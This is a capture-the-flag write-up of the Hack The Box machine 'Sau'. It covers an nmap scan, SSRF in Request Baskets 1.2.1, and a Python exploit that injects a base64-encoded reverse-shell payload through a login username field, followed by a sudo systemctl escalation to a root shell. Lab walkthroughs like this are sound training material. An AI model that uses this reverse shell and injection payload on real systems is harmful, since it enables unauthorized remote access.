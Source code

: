 # SAU-HTB

### NMAP SCAN:
```
PORT      STATE    SERVICE        VERSION
22/tcp    open     ssh            OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
33/tcp    filtered dsp
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Fri, 22 Sep 2023 17:33:44 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Fri, 22 Sep 2023 17:33:11 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Fri, 22 Sep 2023 17:33:12 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.80%I=7%D=9/22%Time=650DCFD7%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;\
SF:x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Fri,\x2022\x20Sep\x20
SF:2023\x2017:33:11\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/w
SF:eb\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Re
SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x
SF:20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x202
SF:00\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Fri,\x2022\x20Sep\x20
SF:2023\x2017:33:12\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest
SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request"
SF:)%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
SF:Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCon
SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\
SF:r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400\
SF:x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nC
SF:onnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,"
SF:HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20c
SF:harset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(K
SF:erberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20R
SF:equest")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\n
SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Options
SF::\x20nosniff\r\nDate:\x20Fri,\x2022\x20Sep\x202023\x2017:33:44\x20GMT\r
SF:\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20nam
SF:e\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}\$\
SF:n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:
SF:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20
SF:Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request
SF:\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20clo
SF:se\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 152.13 seconds
```
- Here the http port is filtered, so we checking other ports 55555 open port therefore checking it opens a 
`Request Baskets` web page which shows that it is a Request Buckets v1.2.1, which has a `SSRF (SERVER SIDE REQUEST FORGUERY)`

### SSRF in Request Baskets v1.2.1
- SSRF is a web-based vulnerability where the requests are made by the server, this is a kind of vulnerability where the requests made by user are sent as the requests by the server by using this we access the port 80 of the box
![img](screenshots/Screenshot from 2023-09-22 23-51-32.png)
### MagicBricks v0.53 (RCE)
```
import sys
import os
import base64

def main():
    listening_IP = None
    listening_PORT = None
    target_URL = None

    if len(sys.argv) != 4:
        print("Error. Needs listening IP, PORT, and target URL.")
        return -1

    listening_IP = sys.argv[1]
    listening_PORT = sys.argv[2]
    target_URL = sys.argv[3]
    print("Running exploit on " + str(target_URL))
    curl_cmd(listening_IP, listening_PORT, target_URL)

def curl_cmd(my_ip, my_port, target_url):
    payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
    encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64
    print("encoded payload is", encoded_payload)
    command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
    os.system(command)

if __name__ == "__main__":
```

The username in this login page is weakly sanitized so that we execute a reverse shell to my pc.This py script takes three parameters of my_ip, my_port, payload.
`python3 sau.py 10.10.14.53 1234 http://10.10.11.224:55555/60z0p86`

### PRIVILAGE ESCALATION 
- While checking for the sudo permissions of puma we got that puma can execute  `systemctl status trails.service` 
 ```
 sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
```
- Systemctl command is runned as a root user and then we type `!sh` to get the root shell.


# Happy Hacking:)
